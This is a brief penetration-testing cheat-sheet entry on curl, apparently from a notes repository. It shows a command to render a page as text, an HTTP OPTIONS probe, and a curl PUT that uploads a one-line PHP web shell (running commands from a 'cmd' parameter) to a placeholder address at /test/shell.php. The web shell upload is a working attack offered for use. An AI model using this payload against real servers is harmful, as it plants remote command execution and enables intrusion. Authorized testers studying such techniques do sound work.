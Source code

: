 # CURL

Look at page with just text
```
curl $target -s -L | html2text -width '99' | uniq
```

curl -v -X OPTIONS http://INSERTIPADDRESS/
curl -v -X PUT -d '<?php system($_GET["cmd"]); ?>' http://INSERTIPADDRESS/test/shell.php
